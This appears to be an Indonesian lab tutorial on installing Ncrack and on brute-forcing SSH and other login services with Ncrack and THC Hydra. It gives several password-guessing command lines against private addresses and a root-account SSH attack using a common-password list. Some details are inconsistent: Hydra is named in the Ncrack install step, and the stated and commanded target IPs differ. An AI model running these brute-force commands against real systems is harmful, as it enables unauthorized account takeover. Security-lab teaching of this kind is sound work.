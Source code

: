 INSTALASI NCRACK
----------------
- **Step 1**    : Download source code Ncrack
```
wget https://nmap.org/ncrack/dist/ncrack-0.5.tar.gz
```
- **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Hydra, ketik kode berikut di terminal:
```
tar -xzf ncrack-0.5.tar.gz
cd ncrack-0.5
./configure
make
su root
make install
```

SUPPORTED PLATFORMS
-------------------
- Semua platform UNIX (Linux, *bsd, Solaris, etc.)
- MacOS
- Windows dengan Cygwin (IPv4 and IPv6)
- Mobile systems based on Linux, MacOS or QNX (e.g. Android, iPhone, Blackberry 10, Zaurus, iPad)

CARA PENGGUNAAN
---------------
**Contoh**:
```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `10.151.36.98` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :
```
ncrack -p 22 --user root -P 500-worst-passwords.txt 10.151.254.180
```
![](/assets/ncrack-hydra/ncrack-berhasil.png)
KESIMPULAN
----------
Dengan uji coba yang telah dilakukan, Ncrack dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 90 detik, berarti proses serangan dengan Ncrack lebih cepat dari THC Hydra. Jika password tidak terdapat dalam file, maka serangan akan gagal.







